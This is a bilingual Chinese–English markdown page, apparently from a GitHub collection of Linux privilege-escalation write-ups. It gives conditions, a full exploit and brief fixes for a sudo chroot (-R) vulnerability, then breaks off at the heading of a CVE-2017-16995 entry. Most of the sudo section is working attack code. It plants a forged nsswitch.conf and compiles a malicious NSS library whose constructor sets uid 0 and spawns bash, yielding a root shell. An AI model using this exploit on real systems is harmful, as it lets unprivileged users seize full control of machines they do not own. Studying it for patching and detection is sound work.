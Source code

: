 ## 🧰 利用条件 / Exploitation Conditions

- 攻击者能写入某个目录并执行 `sudo -R`；
- sudo 未打补丁，仍为受影响版本；
- 系统支持动态加载 NSS 模块。

------

## 🔧 利用步骤 / Exploit Steps

```apl
# Step 1 - 创建伪造目录结构
mkdir -p /tmp/chroot/etc /tmp/chroot/lib

# Step 2 - 编写伪造 nsswitch.conf
echo "passwd: files myhack" > /tmp/chroot/etc/nsswitch.conf

# Step 3 - 编写并编译恶意共享库
cat << EOF > myhack.c
#include <unistd.h>
#include <stdlib.h>
__attribute__((constructor)) void init() {
    setuid(0); setgid(0);
    system("/bin/bash");
}
EOF

gcc -shared -fPIC -o /tmp/chroot/lib/libnss_myhack.so.2 myhack.c

# Step 4 - 触发 sudo chroot 提权
sudo -R /tmp/chroot id   # 或 sudo -R /tmp/chroot /bin/bash
```

执行成功后，即可获取 root shell。

------

## 🔒 修复方案 / Mitigation

- 将 sudo 升级至 **1.9.17p1 或更高版本**；
- 禁止普通用户执行 `sudo -R` 或限制可访问的 chroot 路径；
- 加强 NSS 模块的加载路径校验。

------

## 

# 🛡️ CVE-2017-16995 - Linux Kernel (Ubuntu 16.04) Local Privilege Escalation

## 🧾 漏洞编号
**CVE-2017-16995**
